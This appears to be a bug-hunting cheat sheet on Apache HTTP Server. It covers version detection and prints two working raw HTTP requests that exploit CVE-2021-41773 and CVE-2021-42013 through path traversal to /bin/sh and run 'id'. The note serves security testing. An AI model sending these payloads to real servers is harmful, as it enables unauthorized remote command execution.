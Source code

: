 ```yaml
---
title: Apache HTTP Server (common bugs)
tags: [bug hunting, apache]
categories: [bug hunting, apache]
date: 2022-01-05 11:33:00
---
```



# Apache (HTTP Server) Common Bugs

## Introduction
What would you do if you came across a website that uses Apache (HTTP Server)?

## How to Detect
Usually in the HTTP response there is a header like this `Server: Apache` or `Server: Apache/2.4.50` and check the 404 page

1. Find the related CVE by checking Apache (HTTP Server) version
* How to find the Apache (HTTP Server) version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated Apache (HTTP Server) version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html)

Some example CVE:

- CVE-2021-41773 (RCE and LFI)
```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded
Connection: close

echo;id
```
- CVE-2021-42013 (RCE and LFI)
```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

echo;id
```
